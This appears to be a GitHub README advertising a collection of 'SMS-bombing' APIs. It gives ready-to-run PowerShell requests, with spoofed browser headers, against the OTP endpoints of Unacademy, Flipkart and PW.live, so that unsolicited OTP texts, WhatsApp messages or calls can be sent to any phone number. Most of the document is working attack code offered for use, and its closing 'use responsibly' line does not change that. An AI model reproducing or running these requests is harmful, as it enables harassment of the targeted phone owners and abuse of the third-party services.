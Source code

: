 # Bombing-Api Collection 🚀

A meticulously curated and continuously updated repository of **SMS-bombing APIs** designed for developers to access various services for sending bulk SMS. Explore the collection below and stay tuned for exciting new additions coming soon!

## Unacademy SMS API
This API allows sending OTP requests to phone numbers via the Unacademy platform.

### Usage Example (PowerShell)
```powershell
$uri = "https://unacademy.com/api/v3/user/user_check/?enable-email=true"
$body = @{
    phone        = "<PHONE_NUMBER>"
    country_code = "IN"
    otp_type     = 1
    email        = ""
    send_otp     = $true
    is_un_teach_user = $false
} | ConvertTo-Json

$headers = @{
    "Origin"     = "https://unacademy.com"
    "Referer"    = "https://unacademy.com/"
    "User-Agent" = "Mozilla/5.0 (Windows NT 10.0; Win64; x64)"
    "X-Platform" = "0"
}

$response = Invoke-RestMethod -Uri $uri -Method Post -Headers $headers -Body $body -ContentType "application/json"
$response | ConvertTo-Json -Depth 6
```

## Flipkart OTP Generate API
This API enables sending OTP requests to phone numbers via the Flipkart platform.

### Usage Example (PowerShell)
```powershell
$uri = "https://1.rome.api.flipkart.com/api/7/user/otp/generate"

$body = @{
    loginId = "<PHONE_NUMBER>"   # Must include country code (e.g., +91...)
} | ConvertTo-Json

$headers = @{
    "Origin"         = "https://www.flipkart.com"
    "Referer"        = "https://www.flipkart.com/"
    "User-Agent"     = "Mozilla/5.0 (Windows NT 10.0; Win64; x64)"
    "X-User-Agent"   = "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36 FKUA/website/42/website/Desktop"
    "Accept"         = "*/*"
    "Content-Type"   = "application/json"
    "Sec-Fetch-Site" = "same-site"
    "Sec-Fetch-Mode" = "cors"
    "Sec-Fetch-Dest" = "empty"
    "Sec-Ch-Ua"      = "\"Chromium\";v=\"139\", \"Not;A=Brand\";v=\"99\""
    "Sec-Ch-Ua-Mobile" = "?0"
    "Sec-Ch-Ua-Platform" = "\"Windows\""
}

$response = Invoke-RestMethod -Uri $uri -Method Post -Headers $headers -Body $body -ContentType "application/json"
$response | ConvertTo-Json -Depth 6
```

## PW.live (Penpencil) OTP Resend API
This API facilitates resending OTP requests to phone numbers via the PW.live platform.

### Usage Example (PowerShell)
```powershell
# PW.live (Penpencil) Get OTP API
$uri = "https://api.penpencil.co/v1/users/get-otp?smsType=0&fallback=true"

$body = @{
  username       = "<PHONE_NUMBER>"           # Replace with user’s mobile number
  countryCode    = "+91"                      # Replace with relevant country code
  organizationId = "5eb393ee95fab7468a79d189"
} | ConvertTo-Json

$headers = @{
  "Origin"           = "https://www.pw.live"
  "Referer"          = "https://www.pw.live/"
  "User-Agent"       = "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36"
  "Sec-Ch-Ua"        = '"Not=A?Brand";v="24", "Chromium";v="140"'
  "Sec-Ch-Ua-Mobile" = "?0"
  "Sec-Ch-Ua-Platform" = '"Windows"'
  "Content-Type"     = "application/json"
  "Accept"           = "*/*"
  "Accept-Language"  = "en-GB,en;q=0.9"
  "Sec-Fetch-Site"   = "cross-site"
  "Sec-Fetch-Mode"   = "cors"
  "Sec-Fetch-Dest"   = "empty"
  "Randomid"         = "43c99813-ddf0-429e-834d-24ffb7eef4c0"   # Generate a new UUID per request if needed
}

$response = Invoke-RestMethod -Uri $uri -Method Post -Headers $headers -Body $body -ContentType "application/json"
$response | ConvertTo-Json -Depth 6
```

### Uses
- `smsType=0`: Sends OTP via SMS
- `smsType=1`: Sends OTP via WhatsApp
- `smsType=2`: Sends OTP via Call

## What's Next?
- More APIs will be added soon to expand your options for bulk SMS services.
- Stay updated for enhanced documentation and additional examples.

*Note*: Use these APIs responsibly and in compliance with applicable laws and terms of service.

